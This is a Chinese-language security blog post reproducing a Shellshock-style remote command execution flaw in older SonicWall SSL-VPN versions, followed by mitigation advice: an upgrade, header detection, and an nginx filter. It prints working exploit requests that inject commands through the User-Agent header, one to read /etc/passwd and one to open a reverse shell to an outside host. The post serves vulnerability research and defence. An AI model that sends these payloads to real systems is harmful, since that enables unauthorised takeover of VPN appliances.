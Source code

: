 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/NQRJOIol0KuaHCQHuo6DjQ)

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjeiaDMO8Z5dS0bzibhpgv5icoLkLzWXSXicO8G3k3BF2Nia0Ud57mKB1FBd9uthDvkY56pzmI9X6ZklZicg/640?wx_fmt=png)  

SonicWall SSL-VPN 远程命令执行漏洞

一、漏洞描述

SonicWall SSL-VPN 历史版本远程命令执行漏洞以及相关利用脚本。由于 SonicWall SSL-VPN 使用了旧版本内核以及 HTTP CGI 可执行程序，攻击者可构造恶意其 HTTP 请求头，造成远程任意命令执行，并获得主机控制权限，软件影响版本 vpn<8.0.0.4

二、漏洞复现

exp：

```
GET /cgi-bin/jarrewrite.sh HTTP/1.1 
Host: thelostworld:8080 
User-Agent: () { :; }; echo ; /bin/bash -c "cat /etc/passwd" 
Accept: */* Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2 
Accept-Encoding: gzip, deflate 
Connection: close
```

访问执行查看：cat /etc/passwd

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjeiaDMO8Z5dS0bzibhpgv5icoL8JA8fD6yp7ib3jkkc0ia2xXaAruWOnjAlibomUiaOIaoDtT97JwLictB0eQ/640?wx_fmt=png)

执行反弹 shell

```
GET /cgi-bin/jarrewrite.sh HTTP/1.1 
Host: thelostworld:8080  
User-Agent: () { :; }; echo ; /bin/bash -c "nohup bash -i >& /dev/tcp/thelostworld/8080 0>&1 &" 
Accept: */* Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2 
Accept-Encoding: gzip, deflate 
Connection: close
```

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjeiaDMO8Z5dS0bzibhpgv5icoLicyic18nc7svibFbG4WO7uzDDY5UH8bkjeiaDba7zQeg83lJ5sc6W3zD8w/640?wx_fmt=png)

成功获取到 shell：

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjeiaDMO8Z5dS0bzibhpgv5icoL6iaDMD0BTXmpztjCZut1iaVUibpKicdaUyrajON667avJDxtQRgwPVDWJg/640?wx_fmt=png)

简单的脚本尝试验证：

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjeiaDMO8Z5dS0bzibhpgv5icoL9X67peicqo6VQCn0ePZicJjPw7cNoQlvm8dTmuZFJ9VMEesrqTwRyPhw/640?wx_fmt=png)

执行打印：  

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjeiaDMO8Z5dS0bzibhpgv5icoLPPvMs8SL60hh3RjDYZCOPA2dogyJ6icUWBd1oufH53jYm0Od3JlN4GA/640?wx_fmt=png)

三、防护修补建议

通用修补建议

升级到  Sonic SMA 8.0.0.4

临时修补建议

针对 http header 进行检测

可能存在的特征字符串如下 () { :;};

使用 nginx 反向代理对 header 进行强制过滤

```
location  /cgi-bin/jarrewrite.sh {
    proxy_pass http://your-ssl-vpn:your-ssl-vpn-port$request_uri;
    proxy_set_header host $http_host;
    proxy_set_header user-agent "sonicwall ssl-vpn rec fix";
}
```

参考：

 https://my.oschina.net/u/4600927/blog/4927559

免责声明：本站提供安全工具、程序 (方法) 可能带有攻击性，仅供安全研究与教学之用，风险自负!

转载声明：著作权归作者所有。商业转载请联系作者获得授权，非商业转载请注明出处。

订阅查看更多复现文章、学习笔记

thelostworld

安全路上，与你并肩前行！！！！

![](https://mmbiz.qpic.cn/mmbiz_jpg/uljkOgZGRjeUdNIfB9qQKpwD7fiaNJ6JdXjenGicKJg8tqrSjxK5iaFtCVM8TKIUtr7BoePtkHDicUSsYzuicZHt9icw/640?wx_fmt=jpeg)

个人知乎：https://www.zhihu.com/people/fu-wei-43-69/columns

个人简书：https://www.jianshu.com/u/bf0e38a8d400

个人 CSDN：https://blog.csdn.net/qq_37602797/category_10169006.html

个人博客园：https://www.cnblogs.com/thelostworld/

FREEBUF 主页：https://www.freebuf.com/author/thelostworld?type=article

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjcW6VR2xoE3js2J4uFMbFUKgglmlkCgua98XibptoPLesmlclJyJYpwmWIDIViaJWux8zOPFn01sONw/640?wx_fmt=png)

欢迎添加本公众号作者微信交流，添加时备注一下 “公众号”  

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjcSQn373grjydSAvWcmAgI3ibf9GUyuOCzpVJBq6z1Z60vzBjlEWLAu4gD9Lk4S57BcEiaGOibJfoXicQ/640?wx_fmt=png)